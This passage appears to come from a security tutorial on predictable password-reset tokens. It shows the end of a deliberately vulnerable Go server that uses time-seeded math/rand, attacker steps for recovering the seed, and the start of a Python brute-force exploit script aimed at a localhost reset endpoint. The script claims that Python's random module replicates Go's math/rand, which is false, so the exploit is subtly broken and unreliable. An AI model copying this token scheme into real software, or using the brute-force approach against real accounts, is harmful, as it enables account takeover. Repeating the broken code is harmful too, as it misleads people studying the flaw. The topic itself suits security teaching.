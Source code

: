 ```go
	// In a real app, token would be stored with user and sent via email
	simulateSendEmail(email, token)
	fmt.Fprintf(w, "Password reset request processed for %s. Check your email.\n", email)
}

func main() {
	http.HandleFunc("/reset-password", resetPasswordHandler)
	fmt.Println("Vulnerable server listening on :8080")
	log.Fatal(http.ListenAndServe(":8080", nil))
}
```

**Attacker Steps:**

1. **Observe Token Generation:** The attacker, knowing the target's email (e.g., `victim@example.com`), initiates a password reset request for that user. They might observe the approximate time the request was made or the email was sent.
    - *Attacker Action:* `GET http://localhost:8080/reset-password?email=victim@example.com`
    - *Server Response (and simulated email):* `Sending token 123456 to victim@example.com` (attacker notes the token `123456` and the time `T`)
2. **Guess Seed (Brute-Force):** The attacker knows the token is a 6-digit number and that `math/rand` is seeded with `time.Now().UnixNano()`. They can then write a script to brute-force `UnixNano()` values around the observed time `T`. Since `UnixNano()` is a large number, the attacker would typically focus on a small window (e.g., +/- a few seconds or milliseconds) around the observed time.
3. **Reproduce Sequence and Predict Next Token:** Once the attacker's script finds a `seed_candidate` that, when used to initialize `math/rand`, produces the *observed token* (`123456`), they have effectively identified the internal state of the server's PRNG at that specific moment. From this point, the attacker can simply generate the *next* number in the sequence using the same `math/rand` instance. This next number will be the token the server would generate if the victim requested *another* password reset token immediately after the first.

**Attacker Script (Conceptual Python Example):**

Python

```python
import requests
import time
import random

TARGET_URL = "http://localhost:8080/reset-password"
TARGET_EMAIL = "victim@example.com"

def generate_insecure_token_py(seed_nano):
    """Replicates Go's math/rand.Intn(1000000) behavior with a given seed."""
    random.seed(seed_nano)
    return f"{random.randint(0, 999999):06d}"

def exploit_insecure_rand():
    print(f"[*] Requesting initial password reset for {TARGET_EMAIL}...")
    # Simulate the victim or attacker requesting the first token
    start_time_ns = time.time_ns() # Capture approximate time of request
    response = requests.get(f"{TARGET_URL}?email={TARGET_EMAIL}")
    print(f"[*] Server response: {response.text.strip()}")
    print(f"[*] Note the approximate time of this request: {start_time_ns} ns")

    # --- ATTACKER'S PREDICTION PHASE ---
    # In a real attack, the attacker would have observed a token (e.g., from a leaked email or by monitoring)
    # and the approximate time it was generated. For this PoC, we'll simulate finding the "correct" seed
    # by brute-forcing around the time we just made the request.

    # Assume we observed a token, and now we try to find the seed that generated it.
    # Let's say the observed token was "123456" (hypothetical, from the server's output)
```